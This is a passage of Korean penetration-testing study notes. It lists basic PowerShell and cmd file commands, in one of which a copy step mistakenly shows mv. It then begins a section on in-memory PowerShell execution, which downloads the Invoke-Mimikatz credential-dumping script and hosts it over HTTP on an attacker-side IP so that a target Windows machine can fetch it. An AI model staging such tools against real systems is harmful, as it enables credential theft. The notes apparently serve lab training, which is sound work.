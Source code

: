 16. cat -First, cat -Last
```
// 첫 두줄만 조회
cat -First 2 .\teset.txt

// 마지막 두줄 
cat -Last 2 .\teset.txt
```

17. mv
```
// power shell
mv .\test.txt test2.txt 

// cmd
move test2.txt test3.txt 
```

18. cp
```
// power shell
mv .\test3.txt test4.txt 

// cmd
copy test4.txt test5.txt 
```

19. rm 
```
// power shell
rm .\test5.txt

// cmd 
del test4.txt
```

20. mkdir 
```
// power shell
mkdir powershell 

//cmd 
mkdir cmd
```


# 4. 파워쉘 인 - 메모리 실행 

1. 스크립트 다운 및 http server on
```
# exegol 이 아닌 mac에서 본인이 정한 폴더로 이동 후 진행 필요
# 현재 본인경로 .exegol - workspaces - bhpt 안
# 칼리 리눅스 - 스크립트 다운 후 호스팅 
wget https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1

// 실행 
python3 -m http.server 80 

//mac 의 ifconfig 확인 후 가장 하단 utun6 의 ip 확인
utun6: flags=8051<UP,POINTOPOINT,RUNNING,MULTICAST> mtu 1500
	inet 10.8.0.15 --> 10.8.0.1 netmask 0xffffff00

// 접속한 윈도우 데스크탑에서 크롬 -> ip 입력 10.8.0.15
// 그럼 설치한 파일 (Invoke-Mimikatz.ps1)이 보이고 다운로드 // 가능 
```
